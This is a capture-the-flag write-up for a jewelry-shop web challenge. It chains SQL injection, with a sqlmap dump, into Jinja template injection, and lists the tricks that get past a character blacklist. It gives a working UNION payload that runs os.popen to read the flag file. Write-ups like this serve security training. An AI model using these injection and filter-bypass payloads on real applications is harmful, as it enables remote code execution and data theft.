 # Chain shop

## Summary

Flag: `UAD360{Cr1tic4l_ch41N$_f0r_fUn_4nD_pr0f1t}`

Description: Our jewelry store has just launched a public bug bounty, would you be able to report any vulnerability?

## Write-up

We are given a simple website with just a search input:

![landpage](img/landpage.png)

Trying different common payloads for injections we easily see that is vulnerable to SQL Injection.

![error](img/error.png)

Now we can dump the database with sqlmap:

![sqlmap](img/sqlmap_dump.png)

There is some entries in the database with some notes, in one of them it makes some references to templates.

It seems vulnerable to STTI from within SQL injection results:

```
z' UNION SELECT 1,"{%print(7*7)%}","a",2-- -
```

However in order to get RCE here are some blacklisted characters:

* `{{` & `if` & `set`: As previously explained it can be bypassed with `{% print() %}`
* `\`: It does not allow us to use other type of encodings like hexa or octal
* `"`: This is an easy one, just change `"` with `'`
* `__class__` & `__globals__` & `__builtins__` & `+`: We can use string concatenation, keep in mind that in python we do not need `+` to do so.

> Originally the challenge was designed to not allow `if` & `set`. However forgot to add them to the blacklist so it could also get exfiltrated with conditionals.

The payload would look something like this:
```
z' UNION SELECT 1,"{%print(request['application']['__glo''bals__']['__bui''ltins__']['__import__']('os').popen('cat /flag').read())%}","a",2-- -
```

![flag](img/flag.png)